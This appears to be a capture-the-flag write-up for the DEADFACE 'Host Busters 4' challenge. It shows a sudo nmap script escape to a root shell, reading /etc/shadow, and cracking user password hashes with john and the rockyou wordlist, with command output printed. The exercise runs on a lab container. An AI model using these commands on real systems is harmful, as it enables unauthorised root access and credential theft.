

# Host Busters 4 (300 points)
TGRI believes a sensitive project proposal was compromised in a recent attack from DEADFACE. Find the proposal and submit the flag associated with this document.

Submit the flag as flag{flag_here}.

vim@gh0st404.deadface.io

Password: letmevim

## Solution
With the access to the user `gh0st404` from [Host Busters 3](./Host_Busters_3.md) we can try to escalate our privileges. Taking a look at the sudo rights shows that we are able to use nmap:
```
gh0st404@2e6d7c969668:~$ sudo -l
Matching Defaults entries for gh0st404 on 2e6d7c969668:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User gh0st404 may run the following commands on 2e6d7c969668:
    (ALL) NOPASSWD: /usr/bin/nmap
    (ALL : ALL) NOPASSWD: /etc/init.d/ssh start
gh0st404@2e6d7c969668:~$
```

According to [GTFObins](https://gtfobins.github.io/gtfobins/nmap/#sudo) we can escalate our privileges:
```
gh0st404@2e6d7c969668:~$ TF=$(mktemp)
gh0st404@2e6d7c969668:~$ echo 'os.execute("/bin/sh")' > $TF
gh0st404@2e6d7c969668:~$ sudo nmap --script=$TF
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-21 13:29 UTC
NSE: Warning: Loading '/tmp/tmp.O47vttUCoj' -- the recommended file extension is '.nse'.
# uid=0(root) gid=0(root) groups=0(root)
# /bin/bash
root@2e6d7c969668:~#
```
The shell is a bit buggy. So the entered commands are not shown interactive.

Nothing in the root home directory:
```
root@2e6d7c969668:~#
total 20
drwx------ 1 root root 4096 Jul 29 16:58 .
drwxr-xr-x 1 root root 4096 Oct 21 13:24 ..
-rw-r--r-- 1 root root  571 Apr 10  2021 .bashrc
-rw-r--r-- 1 root root  161 Jul  9  2019 .profile
drwx------ 2 root root 4096 Jul 29 16:58 .ssh
root@2e6d7c969668:~#
```

Examine the other user directories and take a look into the bash history:
```
root@2e6d7c969668:~#
total 32
drwxrwxr-x 1 root      root      4096 Jul 29 23:05 .
drwxr-xr-x 1 root      root      4096 Oct 21 13:24 ..
drwxrwxr-x 1 gh0st404  gh0st404  4096 Jul 31 02:24 gh0st404
drwxrwxr-x 1 mort1cia  mort1cia  4096 Jul 29 23:05 mort1cia
drwxrwxr-x 1 spookyboi spookyboi 4096 Jul 31 02:24 spookyboi
drwxrwxr-x 1 vim       vim       4096 Oct 21 13:26 vim
root@2e6d7c969668:~#
total 164
drwxrwxr-x 1 spookyboi spookyboi   4096 Jul 31 02:24 .
drwxrwxr-x 1 root      root        4096 Jul 29 23:05 ..
-rw------- 1 spookyboi spookyboi    102 Jul 31 02:19 .bash_history
-rw-r--r-- 1 spookyboi spookyboi    220 Apr 23 21:23 .bash_logout
-rw-r--r-- 1 spookyboi spookyboi   3526 Apr 23 21:23 .bashrc
drwxrwxr-x 1 spookyboi spookyboi   4096 Jul 29 23:05 .keys
-rw-r--r-- 1 spookyboi spookyboi    807 Apr 23 21:23 .profile
drwxrwxr-x 1 spookyboi spookyboi   4096 Jul 29 23:05 .ssh
-rw------- 1 spookyboi spookyboi 127951 Jul 31 02:16 proposal.pdf
root@2e6d7c969668:~#
ls
ip a
ls -l
cd .keys
cd..
wget https://tinyurl.com/mr47bxn7
file mr47bxn7
mv mr47bxn7 proposal.pdf

root@2e6d7c969668:~#
```

We got a URL for the proposal.pdf. If we try to access it we get the document. At the bottom is the flag:


## Cracking
As well we can access the /etc/shadow and /etc/passwd.
```
root@2e6d7c969668:~#
root:*:19520:0:99999:7:::
daemon:*:19520:0:99999:7:::
bin:*:19520:0:99999:7:::
sys:*:19520:0:99999:7:::
sync:*:19520:0:99999:7:::
games:*:19520:0:99999:7:::
man:*:19520:0:99999:7:::
lp:*:19520:0:99999:7:::
mail:*:19520:0:99999:7:::
news:*:19520:0:99999:7:::
uucp:*:19520:0:99999:7:::
proxy:*:19520:0:99999:7:::
www-data:*:19520:0:99999:7:::
backup:*:19520:0:99999:7:::
list:*:19520:0:99999:7:::
irc:*:19520:0:99999:7:::
_apt:*:19520:0:99999:7:::
nobody:*:19520:0:99999:7:::
systemd-network:!*:19567::::::
systemd-timesync:!*:19567::::::
messagebus:!:19567::::::
sshd:!:19567::::::
mort1cia:$6$53820c565eca77b2$WVK13lCDwtn1/DjcyCktOFkZBb8GX/s0N.lHv8nqRTdIcUFaN6UR1t2iadYXU7bR0DD8P3.JzNcW.ne5vgDfO.:19568:0:99999:7:::
spookyboi:$6$238114ed7adfd724$8mKfFn9ywaU8SV0iQxgi/b8PRA.17ZCU77A9uwQzag/pTYMRbdKVADKoB7EWbU539xg.vy1ZP21Sy.B1WIKvA0:19568:0:99999:7:::
vim:$6$d782b019e05a0a3f$0BP3fPEfLmd7P2WPrXlghsdLH.goxQwvxAyvkDbSYuqidXWhlgtT5f.HXpM1cx8KdgUyfOzDZw2G9O5CoucVL0:19568:0:99999:7:::
gh0st404:$6$5d63619132db26f0$4FF5/xxtU1.OPzv2OdnWmB0mG5kqyMGUCAW8crE5ZqS24v6i1sM806eh8SigsZLxeJs/EtK0RJuB.eD.wTjLp/:19568:0:99999:7:::
root@2e6d7c969668:~#

[...]

mort1cia:x:1000:1000::/home/mort1cia:/bin/bash
spookyboi:x:1001:1001::/home/spookyboi:/bin/bash
vim:x:1002:1002::/home/vim:/bin/vim
gh0st404:x:1003:1003::/home/gh0st404:/bin/bash
```

We can try to crack the password of the users:
```
$ cat shadow     
mort1cia:$6$53820c565eca77b2$WVK13lCDwtn1/DjcyCktOFkZBb8GX/s0N.lHv8nqRTdIcUFaN6UR1t2iadYXU7bR0DD8P3.JzNcW.ne5vgDfO.:19568:0:99999:7:::
spookyboi:$6$238114ed7adfd724$8mKfFn9ywaU8SV0iQxgi/b8PRA.17ZCU77A9uwQzag/pTYMRbdKVADKoB7EWbU539xg.vy1ZP21Sy.B1WIKvA0:19568:0:99999:7:::
gh0st404:$6$5d63619132db26f0$4FF5/xxtU1.OPzv2OdnWmB0mG5kqyMGUCAW8crE5ZqS24v6i1sM806eh8SigsZLxeJs/EtK0RJuB.eD.wTjLp/:19568:0:99999:7:::

$ cat passwd              
mort1cia:x:1000:1000::/home/mort1cia:/bin/bash
spookyboi:x:1001:1001::/home/spookyboi:/bin/bash
gh0st404:x:1003:1003::/home/gh0st404:/bin/bash

$ unshadow passwd shadow > unshadowed

$ cat unshadowed 
mort1cia:$6$53820c565eca77b2$WVK13lCDwtn1/DjcyCktOFkZBb8GX/s0N.lHv8nqRTdIcUFaN6UR1t2iadYXU7bR0DD8P3.JzNcW.ne5vgDfO.:1000:1000::/home/mort1cia:/bin/bash
spookyboi:$6$238114ed7adfd724$8mKfFn9ywaU8SV0iQxgi/b8PRA.17ZCU77A9uwQzag/pTYMRbdKVADKoB7EWbU539xg.vy1ZP21Sy.B1WIKvA0:1001:1001::/home/spookyboi:/bin/bash
gh0st404:$6$5d63619132db26f0$4FF5/xxtU1.OPzv2OdnWmB0mG5kqyMGUCAW8crE5ZqS24v6i1sM806eh8SigsZLxeJs/EtK0RJuB.eD.wTjLp/:1003:1003::/home/gh0st404:/bin/bash

$ john --wordlist=/home/kali/Desktop/tools/rockyou.txt unshadowed
Using default input encoding: UTF-8
Loaded 3 password hashes with 3 different salts (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
zaq12wsx         (gh0st404)     

```

So we found the password of the user `gh0st404`. But we can't log in over SSH. Maybe the password is needed at some other point.